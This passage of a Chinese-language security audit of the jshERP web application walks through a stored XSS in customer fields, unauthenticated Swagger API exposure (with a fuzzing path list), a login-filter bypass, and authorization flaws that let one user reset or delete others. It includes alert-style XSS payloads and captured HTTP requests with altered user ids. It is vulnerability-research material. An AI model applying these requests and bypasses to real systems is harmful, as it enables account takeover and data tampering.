    { title: '电子邮箱',field: 'email',width:80,align:"center"},
    { title: '联系电话', field: 'phoneNum',width:100,align:"center"},
    { title: '传真', field: 'fax',width:100,align:"center"},
    { title: '预付款',field: 'advanceIn',width:70,align:"center"},
    { title: '期初应收',field: 'beginNeedGet',width:70,align:"center"},
    { title: '期初应付',field: 'beginNeedPay',width:70,align:"center"},
    { title: '期末应收',field: 'allNeedGet',width:70,align:"center"},
    { title: '期末应付',field: 'allNeedPay',width:70,align:"center"},
    { title: '税率(%)', field: 'taxRate',width:60,align:"center"},
    { title: '状态',field: 'enabled',width:70,align:"center",formatter:function(value){
        return value? "<span style='color:green'>启用</span>":"<span style='color:red'>禁用</span>";
    }}
]]
```

因此，在插入攻击向量时，需要在显示的参数中进行选择，当然还需要考虑前端的 js 过滤。

调用 initTableData 方法的地方，在 supplier.js 中

```plain
//初始化界面
$(function() {
    var listTitle = ""; //单据标题
    var listType = ""; //类型
    var listTypeEn = ""; //英文类型
    getType();
    initTableData();
    ininPager();
    bindEvent();
});
```

这个在引入 js 时即会调用，全局搜索引入 supplier.js 的地方

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233356-500a2e40-c117-1.png)

在 customer.html 文件中找到了 id 为 tableData 的 table

```plain
<table id="tableData" style="top:300px;border-bottom-color:#FFFFFF"></table>
```

整个流程到这里结束

#### 测试

触发界面

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233410-582e6ac8-c117-1.png)

抓包

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233422-5f64d1ce-c117-1.png)

后台执行的 SQL 语句

```plain
UPDATE jsh_supplier SET supplier = '客户 1', contacts = '小李', phone_num = '12345678', email = '', description = '<script>alert(\'desc\')</script>', type = '客户', enabled = 1, begin_need_get = '0', begin_need_pay = '0', all_need_get = '80', fax = '', telephone = '', address = '<script>alert(\'address\')</script>', tax_num = '', bank_name = '', account_number = '', tax_rate = '12' WHERE jsh_supplier.tenant_id = 63 AND id = 58
```

刷新界面触发 XSS 弹窗

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233435-6774066e-c117-1.png)

### 其他漏洞点

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233446-6ded6800-c117-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233500-75e6b0e8-c117-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233517-801a467e-c117-1.png)

还存在很多，不一一列举

## 信息泄露

### swagger-api 文档信息泄露

#### 关键点

Swagger 是一个规范和完整的框架，用于生成、描述、调用和可视化 RESTful 风格的 Web 服务。总体目标是使客户端和文件系统作为服务器以同样的速度来更新。

spring 项目中的配置参考：[解决 Swagger API 未授权访问漏洞：完善分析与解决方案 - 阿里云开发者社区 (aliyun.com)](https://developer.aliyun.com/article/1361365)

相关路径，在实际测试工程中可用以下字典 fuzz

```plain
/api
/api-docs
/api-docs/swagger.json
/api.html
/api/api-docs
/api/apidocs
/api/doc
/api/swagger
/api/swagger-ui
/api/swagger-ui.html
/api/swagger-ui.html/
/api/swagger-ui.json
/api/swagger.json
/api/swagger/
/api/swagger/ui
/api/swagger/ui/
/api/swaggerui
/api/swaggerui/
/api/v1/
/api/v1/api-docs
/api/v1/apidocs
/api/v1/swagger
/api/v1/swagger-ui
/api/v1/swagger-ui.html
/api/v1/swagger-ui.json
/api/v1/swagger.json
/api/v1/swagger/
/api/v2
/api/v2/api-docs
/api/v2/apidocs
/api/v2/swagger
/api/v2/swagger-ui
/api/v2/swagger-ui.html
/api/v2/swagger-ui.json
/api/v2/swagger.json
/api/v2/swagger/
/api/v3
/apidocs
/apidocs/swagger.json
/doc.html
/docs/
/druid/index.html
/graphql
/libs/swaggerui
/libs/swaggerui/
/spring-security-oauth-resource/swagger-ui.html
/spring-security-rest/api/swagger-ui.html
/sw/swagger-ui.html
/swagger
/swagger-resources
/swagger-resources/configuration/security
/swagger-resources/configuration/security/
/swagger-resources/configuration/ui
/swagger-resources/configuration/ui/
/swagger-ui
/swagger-ui.html
/swagger-ui.html#/api-memory-controller
/swagger-ui.html/
/swagger-ui.json
/swagger-ui/swagger.json
/swagger.json
/swagger.yml
/swagger/
/swagger/index.html
/swagger/static/index.html
/swagger/swagger-ui.html
/swagger/ui/
/Swagger/ui/index
/swagger/ui/index
/swagger/v1/swagger.json
/swagger/v2/swagger.json
/template/swagger-ui.html
/user/swagger-ui.html
/user/swagger-ui.html/
/v1.x/swagger-ui.html
/v1/api-docs
/v1/swagger.json
/v2/api-docs
/v3/api-docs
```

#### 分析

swagger 配置类：Swagger2Config.java

```plain
@Configuration
@EnableSwagger2
public class Swagger2Config {

    @Bean
    public Docket createRestApi() {
        return new Docket(DocumentationType.SWAGGER_2)
                .apiInfo(this.apiInfo())
                .select()
                .apis(RequestHandlerSelectors.any())
                .paths(PathSelectors.any())
                .build();
    }

    private ApiInfo apiInfo() {
        return new ApiInfoBuilder()
                .title("Mybatis-Plus Plugin Example RESTful APIs")
                .description("集成Mybatis-Plus模块接口描述")
                .termsOfServiceUrl("http://127.0.0.1")
                .contact(new Contact("jishenghua", "", ""))
                .version("2.1.1")
                .build();
    }

}
```

在该类及配置文件中未进行任何的限制及访问控制和身份验证，另外在 filter 中也未进行身份判断，因此导致在未登录的情况下能够请求得到 api 接口

#### 测试

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233536-8baf5894-c117-1.png)

#### 修复

1.  限制生成文档的请求处理程序：使用适当的 `RequestHandlerSelectors` 来选择只包含需要公开的接口，而不是使用 `RequestHandlerSelectors.any()`。
2.  限制生成文档的路径：使用适当的 `PathSelectors` 来选择只包含需要公开的路径，而不是使用 `PathSelectors.any()`。
3.  添加访问控制和身份验证：确保只有授权用户能够访问 Swagger API 文档。这可以通过配置身份验证和授权机制来实现，例如基于角色或令牌的访问控制。
4.  定期审查和更新配置：定期审查 Swagger API 文档的配置，确保其与应用程序的安全需求保持一致，并经常更新以反映最新的安全要求。

### 账号密码泄露

#### 分析

在 LogCostFilter.java 中进行了简单分析，有 3 个条件只需要满足其中一个即可不需要登录就能够访问

-   请求 url 中包含/doc.html、/register.html、/login.html
-   请求 url 中包含\[.css，.js，.jpg，.png，.gif，.ico\]中任意一个元素即可
-   请求 url 以/user/login、/user/registerUser、/v2/api-docs 开头即可

因此选择上面的任意一个条件利用即可

#### 测试

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233549-9358666c-c117-1.png)

## 越权漏洞

### 重置密码

#### 分析

根据路径找到对应的路由

```plain
@PostMapping(value = "/resetPwd")
public String resetPwd(@RequestParam("id") Long id,
                       HttpServletRequest request) throws Exception {
    Map<String, Object> objectMap = new HashMap<String, Object>();
    // 初始密码
    String password = "123456";
    String md5Pwd = Tools.md5Encryp(password);
    // 重置操作
    int update = userService.resetPwd(md5Pwd, id);
    if(update > 0) {
        return returnJson(objectMap, message, ErpInfo.OK.code);
    } else {
        return returnJson(objectMap, message, ErpInfo.ERROR.code);
    }
}
```

对应 userService 的 resetPwd 方法

```plain
@Transactional(value = "transactionManager", rollbackFor = Exception.class)
public int resetPwd(String md5Pwd, Long id) throws Exception{
    int result=0;
    logService.insertLog("用户",
                         new StringBuffer(BusinessConstants.LOG_OPERATION_TYPE_EDIT).append(id).toString(),
                         ((ServletRequestAttributes) RequestContextHolder.getRequestAttributes()).getRequest());
    // 根据 id 获取用户
    User u = getUser(id);
    String loginName = u.getLoginName();
    // 判断需要重置的是否是 admin 用户
    if("admin".equals(loginName)){
        logger.info("禁止重置超管密码");
    } else {
        User user = new User();
        user.setId(id);
        user.setPassword(md5Pwd);
        try{
            // 重置操作
            result=userMapper.updateByPrimaryKeySelective(user);
        }catch(Exception e){
            JshException.writeFail(logger, e);
        }
    }
    return result;
}
```

这里没有将当前登陆的用户与需要修改的用户进行比对，找到对应的修改 SQL 语句

```plain
<update id="updateByPrimaryKeySelective" parameterType="com.jsh.erp.datasource.entities.User">
    update jsh_user
    <set>
        <if test="username != null">
            username = #{username,jdbcType=VARCHAR},
        </if>
        <if test="loginName != null">
            login_name = #{loginName,jdbcType=VARCHAR},
        </if>
        <if test="password != null">
            password = #{password,jdbcType=VARCHAR},
        </if>
        <if test="position != null">
            position = #{position,jdbcType=VARCHAR},
        </if>
        <if test="department != null">
            department = #{department,jdbcType=VARCHAR},
        </if>
        <if test="email != null">
            email = #{email,jdbcType=VARCHAR},
        </if>
        <if test="phonenum != null">
            phonenum = #{phonenum,jdbcType=VARCHAR},
        </if>
        <if test="ismanager != null">
            ismanager = #{ismanager,jdbcType=TINYINT},
        </if>
        <if test="isystem != null">
            isystem = #{isystem,jdbcType=TINYINT},
        </if>
        <if test="status != null">
            Status = #{status,jdbcType=TINYINT},
        </if>
        <if test="description != null">
            description = #{description,jdbcType=VARCHAR},
        </if>
        <if test="remark != null">
            remark = #{remark,jdbcType=VARCHAR},
        </if>
        <if test="tenantId != null">
            tenant_id = #{tenantId,jdbcType=BIGINT},
        </if>
    </set>
    where id = #{id,jdbcType=BIGINT}
</update>
```

where 条件中只根据 id 查询

#### 测试

用户原始密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233607-9e122b88-c117-1.png)

现在登陆 jsh 用户，尝试重置 test123 用户密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233617-a43350f0-c117-1.png)

抓包

```plain
POST /user/resetPwd HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 5
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/pages/manage/user.html
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1706618997,1706707611,1706717491; JSESSIONID=30DAE0DC23EE5303A1CFE03DD4394A2F; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1706781674
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=63
```

这里只传递了 userId，尝试对 userId 进行修改再发送请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233631-ac745188-c117-1.png)

请求成功，查看数据库中数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233644-b458cd20-c117-1.png)

成功将 test123 用户的密码进行重置，sql 语句如下：

```plain
UPDATE jsh_user SET password = 'e10adc3949ba59abbe56e057f20f883e' WHERE jsh_user.tenant_id = 63 AND id = 131
```

根据前面的代码逻辑，admin 账号无法重置，其他账号权限低无法重置权限高的账户，此漏洞可与前面密码泄露结合利用

### 删除用户

#### 分析

找到对应的 controller

```plain
@PostMapping("/deleteUser")
@ResponseBody
public Object deleteUser(@RequestParam("ids") String ids)throws Exception{
    JSONObject result = ExceptionConstants.standardSuccess();
    // 这里
    userService.batDeleteUser(ids);
    return result;
}
```

进入 service 层

```plain
@Transactional(value = "transactionManager", rollbackFor = Exception.class)
public void batDeleteUser(String ids) throws Exception{
    StringBuffer sb = new StringBuffer();
    sb.append(BusinessConstants.LOG_OPERATION_TYPE_DELETE);
    List<User> list = getUserListByIds(ids);
    for(User user: list){
        sb.append("[").append(user.getLoginName()).append("]");
    }
    logService.insertLog("用户", sb.toString(),
                         ((ServletRequestAttributes) RequestContextHolder.getRequestAttributes()).getRequest());
    String idsArray[]=ids.split(",");
    int result =0;
    try{
        // 这里
        result=userMapperEx.batDeleteOrUpdateUser(idsArray,BusinessConstants.USER_STATUS_DELETE);
    }catch(Exception e){
        JshException.writeFail(logger, e);
    }
    if(result<1){
        logger.error("异常码[{}],异常提示[{}],参数，ids:[{}]",
                     ExceptionConstants.USER_DELETE_FAILED_CODE,ExceptionConstants.USER_DELETE_FAILED_MSG,ids);
        throw new BusinessRunTimeException(ExceptionConstants.USER_DELETE_FAILED_CODE,
                                           ExceptionConstants.USER_DELETE_FAILED_MSG);
    }
}
```

完全没有根据当前用户的权限来决定是否有资格删除相关用户

sql 查询语句：

```plain
<update id="batDeleteOrUpdateUser">
    update jsh_user
    set status=#{status}
    where id in (
    <foreach collection="ids" item="id" separator=",">
        #{id}
    </foreach>
    )
</update>
```

#### 测试

数据库原始数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233700-bde49176-c117-1.png)

登陆 jsh 账户，选择一个用户进行删除

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233711-c3e8c4c0-c117-1.png)

抓包

```plain
POST /user/deleteUser HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 7
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/pages/manage/user.html
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1706618997,1706707611,1706717491; JSESSIONID=67A20DB5D3DCEF7277316B22B9D579C3; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1706790058
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

ids=135
```

利用前面的未授权漏洞，修改请求，删除 132 账户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233723-cb6f4174-c117-1.png)

删除成功，此时数据库中的数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233734-d1b5edf8-c117-1.png)

相关的 sql 语句

```plain
UPDATE jsh_user SET status = 1 WHERE id IN ('132')
```

另外，在不使用未授权漏洞进行删除时，sql 语句中存在对 tenant\_id 字段的判断，如下 sql 语句

```plain
UPDATE jsh_user SET status = 1 WHERE jsh_user.tenant_id = 63 AND id IN ('132')
```

## 总结

后续通过学习 codeql 来提高审计效率，漏洞寻找过程并不困难，写出来需要花费时间，文章写的匆忙，代码中关键处含有注释，若有错误，请批评指正！
